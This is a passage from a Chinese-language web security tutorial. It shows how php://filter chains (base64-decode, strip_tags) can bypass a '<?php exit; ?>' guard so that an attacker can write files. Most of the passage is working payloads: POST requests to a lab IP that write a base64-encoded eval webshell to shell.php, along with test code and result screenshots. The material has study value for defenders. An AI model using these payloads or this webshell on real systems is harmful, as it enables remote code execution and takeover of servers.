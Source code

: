 由于，”phpexit”一共7个字符，但是base64算法解码时是4个byte一组，所以我们可以随便再给他添加一个字符`（Q）`就可以，这样”phpexitQ”被正常解码，而后面我们传入的webshell的base64内容也被正常解码，这样就会将`&lt;?php exit; ?&gt;`这部分内容给解码掉，从而不会影响我们写入的webshell。
- payload
```
http://192.33.6.145/test.php

POST
txt=QPD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8%2B&amp;filename=php://filter/write=convert.base64-decode/resource=shell.php

base64decode组成
phpe xitQ PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8+
```
- 载荷效果
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0130236e69c5e13e87.png)

从服务器上可以看到已经生成shell.php，同时`&lt;?php exit; ?&gt;`这部分已经被解码掉了。

### <a class="reference-link" name="Bypass-%E5%AD%97%E7%AC%A6%E4%B8%B2%E8%BF%87%E6%BB%A4%E5%99%A8"></a>Bypass-字符串过滤器

除了可以使用php://filter的转换过滤器绕过以外还可以使用其字符串过滤器进行绕过利用。

<a class="reference-link" name="string.strip_tags"></a>**string.strip_tags**

利用php://filter中`string.strip_tags`过滤器去除”exit”。使用此过滤器等同于用 strip_tags()函数处理所有的流数据。我们观察一下，这个`&lt;?php exit; ?&gt;`，实际上是一个XML标签，既然是XML标签，我们就可以利用strip_tags函数去除它。
- 测试代码
```
&lt;?php
echo readfile('php://filter/read=string.strip_tags/resource=php://input');
?&gt;
```
- 测试payload
```
php://filter/read=string.strip_tags/resource=php://input
```
- 载荷效果
[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01d7910de5b759d99a.png)

载荷利用虽然成功了，但是我们的目的是写入webshell，如果那样的话，我们的webshell岂不是同样起不了作用，不过我们可以使用多个过滤器进行绕过这个限制（php://filter允许通过 `|` 使用多个过滤器）。
- 具体步骤分析
```
1、webshell用base64编码   //为了避免strip_tags的影响

2、调用string.strip_tags //这一步将去除&lt;?php exit; ?&gt;

3、调用convert.base64-decode //这一步将还原base64编码的webshell
```
- payload
```
http://192.33.6.145/test.php

POST
txt=PD9waHAgQGV2YWwoJF9QT1NUW1FmdG1dKT8%2B&amp;filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php
```
- 载荷效果
[![](https://p4.ssl.qhimg.com/t014c436917648b755c.png)](https://p4.ssl.qhimg.com/t014c436917648b755c.png)
